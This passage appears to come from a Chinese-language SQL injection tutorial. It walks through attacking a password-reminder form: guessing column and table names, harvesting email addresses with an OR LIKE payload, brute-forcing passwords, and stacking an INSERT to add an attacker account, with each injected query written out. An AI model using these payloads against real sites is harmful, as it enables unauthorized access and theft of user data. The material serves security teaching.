     *   下面猜测了字段名称`email`：
    *   如果我们得到了服务器错误，就意味着我们的 SQL 格式错误，并且抛出了语法错误。最可能是由于错误的字段名称。如果我们得到了任何种类的有效回应，我们就正确猜测了名称。这里我们得到了`email unknown`或者`password was sent`回复。

        ```
        SELECT fieldlist   
        FROM table  
        WHERE field = 'x' AND email IS NULL; --'; 
        ```

    *   猜测表名称

        *   与之相似，如果消息是`email unknown`或者`password was sent`，我们就知道我们的猜测是否正确。

            ```
            SELECT email, passwd, login_id, full_name   
            FROM table  
            WHERE email = 'x' AND 1=(SELECT COUNT(*) FROM tabname); --'; 
            ```

        *   但是，上面只确认了`tabname`是否是有效名称，不一定是我们使用的名称，下面的语句有所帮助：

            ```
            SELECT email, passwd, login_id, full_name   
            FROM members  
            WHERE email = 'x' AND members.email IS NULL; --'; 
            ```

    *   猜测用户的邮件地址：`$EMAIL = x' OR full_name LIKE '%Bob%`

        *   如果 SQL 语句执行成功，通常你会看到这样的消息：`We sent your password to <…>`，其中`<…>`是邮件地址，它的`fill_name`与`%Bob%`匹配（`%`是通配符）。

            ```
            SELECT email, passwd, login_id, full_name   
            FROM members  
            WHERE email = 'x' OR full_name LIKE '%Bob%'; 
            ```

    *   爆破密码（在我们了解有效邮件地址之后）

        ```
        SELECT email, passwd, login_id, full_name   
        FROM members  
        WHERE email = 'bob@example.com' AND passwd = 'hello123';
        ```

    *   如果数据库不是只读的，我们可以尝试下面的东西来添加新用户：

        *   末尾的`--`（注意空格，或者使用`#`）是 SQL 注释的开始。这是个有效的方式来去掉最后由应用提供的单引号，并且不会担心它们的匹配。
        *   有一些挑战：

            *   Web 表单可能没有像你提供足够的空间来键入整个字符串。
            *   Web 应用的用户可能没有`members`表的`INSERT`权限。
            *   应用可能不能正常表现，因为我们没有提供其它字段的值。
            *   有效的`member`可能不仅仅需要`members`表的一行记录，也需要其它表的关联信息（例如`accessrights`），所以只向一个表添加可能不足够。

        ```
        SELECT email, passwd, login_id, full_name   
        FROM members  WHERE email = 'x';   
        INSERT INTO members ('email','passwd','login_id','full_name')    
        VALUES ('xyz@hacker.net','hello','xyz','xyz Hacker');--'; 
        ```
